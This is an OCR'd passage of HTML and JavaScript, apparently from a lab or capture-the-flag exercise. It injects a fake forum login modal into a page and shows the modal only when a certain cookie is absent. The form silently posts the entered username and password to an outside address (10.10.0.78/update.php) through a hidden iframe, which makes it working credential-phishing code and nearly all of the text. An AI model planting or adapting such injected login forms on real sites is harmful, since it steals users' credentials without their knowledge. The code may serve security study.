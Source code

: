 ```html
                if (c.indexOf(name) == 0) {
                    cookieexists = true
                }
            }
            if (cookieexists) {
                return
            }
            var modal = document.getElementById('zbzbz1234')
            modal.classList.remove('hidden')
        })
    </script>
    //...
    <div class="modal hidden" id="zbzbz1234" onload="shouldshow">
        <div id="wrap" class="wrap"> <a id="top" class="top-anchor" accesskey="t"></a>
            <form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username"
                target="hiddenframe">
                <div class="panel">
                    <div class="inner">
                        <div class="content">
                            <h2 class="login-title">Login</h2>
                            <fieldset class="fields1">
                                <dl>
                                    <dt><label for="username">Username:</label></dt>
                                    <dd><input type="text" tabindex="1" name="username" id="username" size="25"
                                            value="" class="inputbox autowidth"></dd>
                                </dl>
                                <dl>
                                    <dt><label for="password">Password:</label></dt>
                                    <dd><input type="password" tabindex="2" id="password" name="password" size="25"
                                            class="inputbox autowidth" autocomplete="off"></dd>
                                </dl>
                                <dl>
                                    <dd><label for="autologin"><input type="checkbox" name="autologin"
                                                id="autologin" tabindex="4">Remember me</label></dd>
                                    <dd><label for="viewonline"><input type="checkbox" name="viewonline"
                                                id="viewonline" tabindex="5">Hide my online status this
                                            session</label></dd>
                                </dl>
                                <dl>
                                    <dt>&nbsp;</dt>
                                    <dd> <input type="submit" name="login" tabindex="6" value="Login"
                                            class="button1" onclick="sethidden()"></dd>
                                </dl>
                            </fieldset class="fields1">
                        </div>
                    </div>
                </div>
            </form>
        </div>
    </div>
</div>
```
